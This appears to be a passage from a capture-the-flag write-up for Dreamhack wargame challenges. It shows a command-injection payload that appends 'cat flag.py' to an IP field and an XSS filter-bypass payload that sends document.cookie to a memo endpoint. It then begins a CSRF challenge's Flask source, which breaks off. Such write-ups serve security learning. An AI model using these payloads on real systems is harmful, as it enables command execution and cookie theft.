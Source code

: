 This is a simple challenge with a `command injection vulnerability` due to insufficient input validation of the `IP`

`payload`

```shell
0.0.0.0;cat flag.py
```

## XSS Filtering Bypass

[Challenge](https://dreamhack.io/wargame/challenges/433)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/f1e73199-e483-46b9-a4f1-8a73485a309a.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20250101%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20250101T075055Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=800ae7c37c57b421b62f3651c79bfca97d97b5ccc5f56e103239b99e1162de25)

In this challenge, we need to bypass the filter to extract the user's `cookie` into the memo variable to get the `flag`
`payload`

```javascript
<scrscriptipt>locatioonn.href="/memo?memo="+document.cookie</scrscriptipt>
```

## CSRF Advanced

[Challenge](https://dreamhack.io/wargame/challenges/442)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/e795e08d-ef8a-42f8-8704-3207867d0d97.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20250101%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20250101T081149Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=589d30c5352d6d6a849e7bf36da67fd0364930a98108084e9a78f67f97c7277b)

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

users = {
    'guest': 'guest',
    'admin': FLAG
}

session_storage = {}
token_storage = {}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    service = Service(executable_path="/chromedriver")
    options = webdriver.ChromeOptions()
    try:
        for _ in [
            "headless",
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".